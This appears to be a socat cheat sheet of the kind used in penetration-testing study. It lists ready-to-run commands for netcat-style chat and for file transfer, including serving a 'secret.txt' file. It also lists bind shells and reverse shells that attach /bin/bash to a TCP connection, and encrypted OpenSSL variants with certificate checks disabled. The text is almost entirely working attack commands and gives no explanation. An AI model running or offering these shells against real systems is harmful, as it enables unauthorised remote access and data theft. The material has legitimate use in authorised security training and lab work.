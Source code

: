 ### Chat
```
socat - TCP4:192.168.1.4:80
socat TCP4-LISTEN:80 STDOUT
```

### Transfer Files
```
socat TCP4-LISTEN:4444,fork file:secret.txt
socat TCP4:192.168.1.4:4444 file:recieved.txt,create
```

### Bind Shell
```
socat TCP4-LISTEN:4444,fork EXEC:/bin/bash
socat - TCP4:192.168.1.4:4444
```

### Reverse Shell
```
socat -d -d TCP4-LISTEN:4444 STDOUT  # For Verbosity (-d -d)
socat TCP4:192.168.1.5:4444 EXEC:/bin/bash
```

### Generate Certificate
```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

### Encrypted Bind Shell
```
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
socat - OPENSSL:192.168.1.4:443,verify=0
```

### Encrypted Reverse Shell
```
socat - OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork
socat OPENSSL:10.11.0.4:443,verify=0 EXEC:/bin/bash
```
